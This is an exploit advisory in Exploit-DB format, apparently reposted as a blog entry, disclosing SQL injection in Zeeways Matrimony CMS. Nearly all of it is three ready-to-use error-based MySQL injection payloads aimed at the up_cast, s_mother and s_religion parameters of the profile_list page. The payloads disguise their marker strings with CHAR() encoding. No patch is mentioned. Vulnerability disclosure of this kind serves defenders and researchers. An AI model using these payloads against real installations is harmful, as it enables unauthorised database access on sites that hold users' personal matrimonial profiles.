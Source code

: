 ```yaml
---
layout:     post
title:      "Zeeways Matrimony CMS - SQL Injection"
date:       2019-03-25 12:41
author:     "Ahmet Ümit BAYRAM"
category:   exploit
tags:       [sql, sqli, sql injection, exploit-db]
---
```


# Exploit Title: Zeeways Matrimony CMS - SQL Injection
# Date: 25.03.2019
# Exploit Author: Ahmet Ümit BAYRAM
# Vendor Homepage: http://www.zeeways.com/matrimony-cms/4/productdetail
# Demo Site: http://www.zeewayscms.com/matrimony/
# Version: Lastest
# Tested on: Kali Linux
# CVE: N/A

----- PoC 1: SQLi -----

Request: http://localhost/[PATH]/profile_list
Vulnerable Parameter: up_cast (POST)
Payload:  (select 1 and row(1,1)>(select
count(*),concat(concat(CHAR(52),CHAR(67),CHAR(117),CHAR(117),CHAR(82),CHAR(120),CHAR(106),CHAR(69),CHAR(48),CHAR(117),CHAR(107)),floor(rand()*2))x
from (select 1 union select 2)a group by x limit 1))

----- PoC 2: SQLi -----

Request: http://localhost/[PATH]/profile_list
Vulnerable Parameter: s_mother (GET)
Payload: (select 1 and row(1%2C1)>(select
count(*)%2Cconcat(concat(CHAR(52)%2CCHAR(67)%2CCHAR(117)%2CCHAR(113)%2CCHAR(82)%2CCHAR(106)%2CCHAR(97)%2CCHAR(51)%2CCHAR(113)%2CCHAR(122)%2CCHAR(116))%2Cfloor(rand()*2))x
from (select 1 union select 2)a group by x limit 1))


----- PoC 3: SQLi -----

Request: http://localhost/[PATH]/profile_list?s_mother=1
Vulnerable Parameter: s_religion (POST)
Payload: (select 1 and row(1,1)>(select
count(*),concat(concat(CHAR(52),CHAR(67),CHAR(117),CHAR(50),CHAR(86),CHAR(74),CHAR(77),CHAR(54),CHAR(109),CHAR(84),CHAR(73)),floor(rand()*2))x
from (select 1 union select 2)a group by x limit 1))z
